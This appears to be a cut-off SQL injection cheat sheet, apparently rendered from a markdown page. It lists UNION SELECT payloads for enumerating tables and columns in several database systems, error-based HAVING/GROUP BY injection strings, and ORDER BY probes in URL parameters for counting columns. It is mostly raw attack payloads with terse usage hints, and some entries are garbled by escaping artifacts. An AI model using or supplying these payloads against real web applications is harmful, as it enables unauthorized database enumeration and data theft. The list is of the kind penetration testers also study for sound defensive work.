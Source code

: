 &nbsp;	UNION SELECT table\_name, null FROM information\_schema.tables WHERE 	table\_schema = 'target\_db' -- -

user-defined tables

&nbsp;	SELECT table\_name FROM information\_schema.tables WHERE table\_schema = 	'databasename'

column names:

&nbsp;	SELECT table\_name, column\_name FROM information\_schema.columns 	WHERE 	table\_name = 'tablename'



Oracle: 

&nbsp;	UNION SELECT table\_name, null FROM all\_tables -- -



PostgreSQL:

&nbsp;	UNION SELECT table\_name, null FROM information\_schema.tables WHERE table	\_schema = 'public' -- -



**user-defined tables:**

&nbsp;	SELECT \\\* FROM all\\\_tables WHERE OWNER = 'DATABASE\\\_NAME' column names:

&nbsp;	SELECT \\\* FROM all\\\_col\\\_comments WHERE TABLE\\\_NAME = 'TABLE'



**Error-based ways to discover column information**

**1. Finding column names using HAVING and GROUP BY (S)**



&nbsp;	' HAVING 1=1 -- (triggers error 1)

&nbsp;	' GROUP BY table.columnfromerror1 HAVING 1=1 -- (triggers error 2)

&nbsp;	' GROUP BY table.columnfromerror1, columnfromerror2 HAVING 1=1 -- (triggers 	error 3)



&nbsp;	' GROUP BY table.columnfromerror1, columnfromerror2, columnfromerror(n) HAVING 	1=1 --

Once no more errors being shown you are done



**2. Testing for column number (MS0+)**

&nbsp;	?id=1 ORDER BY 1 -- 

&nbsp;	?id=1 ORDER BY 2 -- 

&nbsp;	?id=1 ORDER BY 3 -- 

&nbsp;	?id=1 ORDER BY n --

&nbsp;	If an error shows, you've found the number of columns



**3. Ways of finding the column type**
